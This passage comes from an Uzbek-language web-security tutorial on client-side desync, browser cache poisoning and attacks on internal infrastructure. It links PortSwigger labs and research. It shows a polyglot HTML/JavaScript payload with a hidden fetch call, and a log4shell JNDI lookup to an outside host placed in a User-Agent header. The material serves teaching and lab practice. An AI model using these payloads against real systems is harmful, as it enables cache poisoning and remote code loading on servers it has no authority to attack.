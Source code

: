 ### <mark style="color:yellow;">**Payloadni yuborish**</mark>

Ushbu bosqichda siz hujum uchun poydevor o'rnatdingiz, ammo oxirgi vazifa payloadni qanday yuborishni ishlab chiqishdir.

Dastlab, foydalanuvchining brauzeri zararli sahifangizni HTML sifatida ochadi va sayt tarkibida joylashtirilgan JavaScript kodni ishga tushiradi. Natijada u target domenga JavaScript resursini import qilishga uringanida va zararli sahifangizga yoʻnaltirilganda, skript ishlamaganini sezasiz. Buning sababi, brauzer JavaScript-ni kutayotgan paytda siz hali ham HTMLni ishlatyapsiz.

Haqiqiy exploit uchun sizga bir xil endpointdan oddiy JavaScript-ga xizmat ko'rsatish usuli kerak, shu bilan birga sozlash requestiga xalaqit bermaslik uchun bu faqat ushbu ohirgi bosqichda bajarilishini ta'minlash kerak.

Yana bir usullardan biri HTML kodini JavaScript kommentariyasiga olish orqali poliglot payloadini yaratishdir:

```javascript
alert(1);
/*
<script>
    fetch( ... )
</script>
*/
```

Brauzer sahifani HTML sifatida yuklaganida, u faqat `<script>`teglardagi JavaScript-ni bajaradi. Natijada, uni JavaScript tarkibida yuklaganida, u faqat `alert()` ni bajaradi, qolganini dasturchining kommentariyasi sifatida o'qiydi.

{% hint style="warning" %}
<mark style="color:yellow;">**Lab:**</mark> [Client-side desync orqali Browser cache poisoning ≫](https://portswigger.net/web-security/request-smuggling/browser/client-side-desync/lab-browser-cache-poisoning-via-client-side-desync)
{% endhint %}

Ushbu zaiflikni qanday qilib topganimiz haqida ko'proq ma'lumot olish uchun, PortSwigger Research tomonidan [<mark style="color:yellow;">" Brauzer tomonidan boshqariladigan sinxronizatsiya hujumlari:  HTTP request smugglingning yangi chegarasi</mark>](https://portswigger.net/research/browser-powered-desync-attacks#cisco)" ga qarang.

### <mark style="color:yellow;">Ichki infratuzilmaga qarshi hujumlar</mark> <a href="#pivoting-attacks-against-internal-infrastructure" id="pivoting-attacks-against-internal-infrastructure"></a>

Ko'pgina server-side desync hujumlari HTTP headerlarini faqat Burp Repeater kabi vositalar yordamida boshqarishni o'z ichiga oladi. Misol uchun, foydalanuvchining brauzerini `User-Agent` headerda log4shell payloadini joylab request yuborishga majburlash mumkin emas:

```http
GET / HTTP/1.1
Host: vulnerable-website.com
User-Agent: ${jndi:ldap://x.oastify.com}
```
